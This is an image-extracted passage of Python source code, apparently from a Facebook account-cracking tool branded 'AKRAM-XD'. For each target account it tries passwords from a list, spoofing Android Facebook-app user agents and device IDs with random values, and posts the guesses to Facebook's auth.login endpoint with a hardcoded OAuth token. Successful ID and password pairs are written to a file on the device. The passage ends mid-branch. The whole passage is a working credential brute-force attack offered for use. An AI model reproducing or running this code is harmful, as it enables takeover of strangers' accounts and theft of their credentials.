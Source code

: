                         sys.stdout.write('\r\r\033[1;37m [AKRAM-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        uid=str(q['uid'])
                                        try:
                                                okk=open('/sdcard/AKRAM-OK.txt','r').read()
                                                if uid in okk:pass
                                                else:
                                                        print('\r\r\033[1;32m [AKRAM-OK] '+uid+' | '+pas+'\033[1;97m')
                                                        open('/sdcard/AKRAM-OK.txt','a').write(uid+'|'+pas+'\n')
                                                        oks.append(ids)
                                                        break
                                        except:
                                                print('\r\r\033[1;32m [AKRAM-OK] '+uid+' | '+pas+'\033[1;97m')
                                                open('/sdcard/AKRAM-OK.txt','a').write(uid+'|'+pas+'\n')
                                                oks.append(ids)
                                                break
                                else: